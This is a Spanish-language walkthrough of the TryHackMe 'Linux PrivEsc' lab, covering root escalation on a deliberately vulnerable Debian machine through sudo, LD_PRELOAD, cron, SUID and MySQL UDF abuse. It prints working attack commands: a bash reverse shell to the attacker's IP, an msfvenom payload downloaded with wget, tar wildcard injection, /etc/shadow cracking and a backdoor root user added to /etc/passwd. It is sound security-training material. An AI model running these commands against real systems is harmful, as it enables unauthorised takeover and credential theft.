# Linux PrivEsc — TryHackMe (Media)

**Plataforma:** TryHackMe · **Categoría:** Escalada de Privilegios en Linux · **Herramientas:** SSH, find, gcc, msfvenom, netcat, searchsploit, strace, john, nfs-common, linpeas, LinEnum

---

## Resumen

Room práctica de escalada de privilegios en Linux desarrollada por Tib3rius. El objetivo es aprender y demostrar múltiples técnicas de PrivEsc sobre una máquina Debian vulnerable. Partiendo siempre como el usuario `user` con acceso SSH, se exploran sistemáticamente los vectores más comunes: misconfiguraciones de sudo, binarios SUID/SGID, tareas cron, variables de entorno, credenciales expuestas, configuraciones de servicios, y vulnerabilidades de kernel. Cada técnica representa un escenario real que podría encontrarse en auditorías o CTFs.

---

## Habilidades demostradas

- Escalada de privilegios vía sudo con binarios que permiten shell escape (find, vim, awk, ftp, nmap, etc.)
- Abuso de LD_PRELOAD y LD_LIBRARY_PATH para cargar librerías maliciosas con privilegios root
- Explotación de tareas cron: scripts con permisos de escritura, inyección PATH y wildcard injection con tar
- Compilación y uso de exploits SUID: MySQL UDF, exim CVE-2016-1531, shared object injection, PATH hijacking, bash function export, PS4 debugging
- Crackeo de hashes con John the Ripper (rockyou.txt)
- Búsqueda de credenciales en archivos de historial y configuraciones de servicios
- Exfiltración de clave SSH privada expuesta con permisos incorrectos
- Explotación de NFS con `no_root_squash` para crear binarios SUID como root
- Explotación de vulnerabilidad de kernel: Dirty COW (CVE-2016-5195)
- Uso de herramientas de enumeración automática: linpeas, LinEnum, lse

---

## Configuración inicial

Conexión a la máquina mediante SSH con las credenciales provistas por TryHackMe:

```bash
ssh user@<IP>
# Contraseña: password321
```



---

## Task 3 — MySQL User-Defined Functions (UDF)

MySQL corre como root. Si un usuario sin privilegios puede conectarse al servidor MySQL, puede abusar de las **User-Defined Functions** (UDF) para ejecutar comandos del sistema operativo con los permisos del proceso MySQL (root).

El proceso consiste en compilar una librería compartida `.so` con una función maliciosa, cargarla en MySQL, y desde ahí ejecutar comandos con privilegios de root.

```bash
# Compilar la librería UDF
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```



Dentro de MySQL, se carga la librería en el directorio de plugins y se crea la función maliciosa `do_system`:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```



Al salir de MySQL, `/tmp/rootbash` es un binario bash con bit SUID perteneciente a root:

```bash
/tmp/rootbash -p
```





**Método alternativo — leer `/etc/shadow` y crackear con John:**

Con acceso a root vía `do_system`, también es posible leer `/etc/shadow` directamente y crackear el hash de root offline:

```bash
cat /etc/shadow
```



```bash
# En la máquina atacante (Parrot/Kali):
echo '$6$Tb/euwmK$OXA...' > hash1.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```



```bash
su root
# Contraseña: password123
```



**Método alternativo — agregar usuario root personalizado:**

También es posible crear un usuario con UID 0 directamente manipulando `/etc/passwd`:

```bash
openssl passwd hola123
# Genera hash: UedMB6WAZ6y.o
echo 'newroot:UedMB6WAZ6y.o:0:0:root:/root:/bin/bash' >> /etc/passwd
su newroot
# Contraseña: hola123
```





---

## Task 4 — Sudo: Shell Escapes

El comando `sudo -l` muestra qué binarios puede ejecutar el usuario actual con permisos de root sin contraseña:

```bash
sudo -l
```



Muchos binarios legítimos permiten abrir una shell desde dentro (shell escape). Estas técnicas están documentadas en [GTFOBins](https://gtfobins.github.io/).

---

## Task 5 — Sudo: Abuso de find

`find` tiene la opción `-exec` que ejecuta un comando por cada resultado. Al correrlo con sudo, ese comando hereda los privilegios de root:

```bash
sudo find . -exec /bin/sh \; -quit
```

- `find .` — busca en el directorio actual
- `-exec /bin/sh \;` — ejecuta `/bin/sh` por cada resultado encontrado
- `-quit` — sale después del primer resultado (evita ejecutarlo múltiples veces)



---

## Task 6 — Sudo: LD_PRELOAD

`LD_PRELOAD` es una variable de entorno que indica al linker dinámico que cargue una librería compartida **antes** que cualquier otra cuando se ejecuta un programa. Si sudo preserva esta variable (`env_keep+=LD_PRELOAD` en `/etc/sudoers`), es posible cargar código arbitrario con privilegios root.

```bash
# Compilar librería maliciosa (preload.c llama a setuid(0) y execve("/bin/bash"))
gcc -fPIC -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

# Ejecutar cualquier binario permitido por sudo con LD_PRELOAD apuntando a nuestra librería
sudo LD_PRELOAD=/tmp/preload.so find
```

- `-fPIC` — Position Independent Code, requerido para librerías compartidas
- `-nostartfiles` — omite los archivos de startup estándar de C (necesario para una librería "raw")





---

## Task 7 — Sudo: LD_LIBRARY_PATH

Similar a LD_PRELOAD, `LD_LIBRARY_PATH` define directorios donde el linker busca librerías. Si sudo preserva esta variable, se puede crear una librería maliciosa con el mismo nombre que una que usa el binario objetivo, colocarla en un directorio controlado, y el binario cargará la nuestra en lugar de la legítima.

```bash
# Ver qué librerías usa apache2
ldd /usr/sbin/apache2
```



```bash
# Compilar librería con el mismo nombre que libcrypt.so.1
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

# Ejecutar apache2 con LD_LIBRARY_PATH apuntando a /tmp/
sudo LD_LIBRARY_PATH=/tmp apache2
```



---

## Task 8 — Cron: Script con permisos de escritura

Las tareas cron corren con los privilegios del usuario que las define. Cuando un script que ejecuta root tiene permisos de escritura para otros usuarios, cualquiera puede modificarlo e inyectar comandos arbitrarios.

```bash
cat /etc/crontab
```



```bash
ls -l /usr/local/bin/overwrite.sh
```



`overwrite.sh` tiene permisos `rw-` para "others" — cualquier usuario puede sobreescribirlo. Se reemplaza su contenido con un reverse shell:

```bash
bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1
```

En la máquina atacante, se abre un listener:

```bash
nc -nvlp 4444
```

Cuando cron ejecuta el script (cada minuto), llega la conexión como root:



---

## Task 9 — Cron: PATH hijacking

Cron usa su propio PATH (`/home/user:/usr/local/sbin:...`). Si un script en el crontab se llama **sin ruta absoluta** y el primer directorio del PATH de cron es escribible por el usuario, se puede crear un script malicioso con el mismo nombre que el cron ejecutará en su lugar.

`/etc/crontab` muestra que `overwrite.sh` se llama sin ruta absoluta y el PATH de cron empieza con `/home/user` (directorio del usuario). Se crea un `overwrite.sh` malicioso ahí:

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Después de un minuto, cron ejecuta nuestro `overwrite.sh` como root:

```bash
/tmp/rootbash -p
```



---

## Task 10 — Cron: Tar Wildcard Injection

`/etc/crontab` muestra que root ejecuta cada minuto `/usr/local/bin/compress.sh`, que contiene:

```bash
cd /home/user && tar czf /tmp/backup.tar.gz *
```

El `*` (wildcard) es expandido por el shell **antes** de pasarse a tar. Si existen archivos cuyos nombres coincidan con flags válidos de tar, el shell los interpretará como opciones del comando.

Los flags clave de tar para esta técnica son:
- `--checkpoint=1` — activa los "checkpoints" (puntos de control) cada N archivos procesados
- `--checkpoint-action=exec=COMANDO` — ejecuta un comando en cada checkpoint

**Paso 1:** Generar el payload ELF (reverse shell) desde la máquina atacante:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP_VPN> LPORT=4444 -f elf -o shell.elf
```

- `-p linux/x64/shell_reverse_tcp` — payload: reverse shell TCP para Linux x64
- `LHOST` — IP de la máquina atacante (IP de VPN TryHackMe)
- `LPORT` — puerto donde escucharemos con netcat
- `-f elf` — formato del archivo de salida: ELF ejecutable Linux
- `-o shell.elf` — nombre del archivo de salida



**Paso 2:** Transferir el payload a la VM víctima con un servidor HTTP:

```bash
# Máquina atacante: levantar servidor HTTP en el directorio donde está shell.elf
python3 -m http.server 8000
```



```bash
# VM víctima: descargar el payload
wget http://<IP_VPN>:8000/shell.elf -O /home/user/shell.elf
chmod +x /home/user/shell.elf
```



**Paso 3:** Crear los archivos "trampa" cuyos nombres son los flags de tar:

```bash
touch /home/user/--checkpoint=1
touch "/home/user/--checkpoint-action=exec=shell.elf"
```

Estos archivos vacíos tienen nombres que el shell expande como flags cuando tar procesa el wildcard `*`.



**Paso 4:** Abrir el listener en la máquina atacante y esperar que cron ejecute el script:

```bash
nc -nvlp 4444
```





---

## Task 11 — SUID: Exploits conocidos (exim CVE-2016-1531)

Los binarios con bit SUID se ejecutan con los privilegios del propietario (normalmente root), independientemente de quién los ejecute. Si una versión vulnerable tiene un exploit público, se puede obtener root directamente.

```bash
# Encontrar binarios SUID en el sistema
find / -type f -perm -u=s 2>/dev/null
```



Se identifica `/usr/sbin/exim-4.84-3`. Se busca en Exploit-DB:

```bash
searchsploit exim 4.84
```



El exploit `39535.sh` corresponde a **CVE-2016-1531**, una vulnerabilidad en exim que permite escalada de privilegios local en versiones ≤ 4.84-3.

```bash
searchsploit -x linux/local/39535.sh
```



```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```





---

## Task 12 — SUID: Shared Object Injection

Un binario SUID puede intentar cargar una librería `.so` desde una ruta que no existe. Si esa ruta está en un directorio escribible por el usuario, se puede colocar una librería maliciosa que el binario cargará con privilegios root.

```bash
# El binario corre pero no hace nada útil
/usr/local/bin/suid-so
```



```bash
# Detectar librerías faltantes con strace
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

`strace` intercepta las llamadas al sistema. El resultado muestra que busca `/home/user/.config/libcalc.so` y no la encuentra.



```bash
mkdir -p /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```



```bash
/usr/local/bin/suid-so
```



---

## Task 13 — SUID: PATH Hijacking

Un binario SUID llama a otro programa usando solo su nombre (`service`) sin especificar la ruta absoluta (`/usr/sbin/service`). El shell busca el binario en los directorios del `$PATH` de izquierda a derecha. Si se agrega un directorio controlado por el usuario al inicio del PATH, el shell encuentra el binario malicioso primero.

```bash
# Ver qué llama el binario
strings /usr/local/bin/suid-env
```



```bash
# Compilar un "service" malicioso
gcc -o service /home/user/tools/suid/service.c

# Inyectar el directorio actual al inicio del PATH y ejecutar el binario
PATH=.:$PATH /usr/local/bin/suid-env
```



---

## Task 14 — SUID: Variables de entorno / Bash function export

Bash < 4.2-048 permite exportar funciones con nombres de rutas absolutas. Cuando un binario SUID ejecuta un programa por ruta absoluta, Bash busca primero si existe una función exportada con ese nombre.

```bash
# Verificar qué llama suid-env2 (ruta absoluta esta vez)
strings /usr/local/bin/suid-env2
```



```bash
# Versión de bash
/bin/bash --version
# bash 4.1.5 → vulnerable a function export por nombre de ruta absoluta
```

```bash
# Crear función con nombre de ruta absoluta y exportarla
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

/usr/local/bin/suid-env2
```

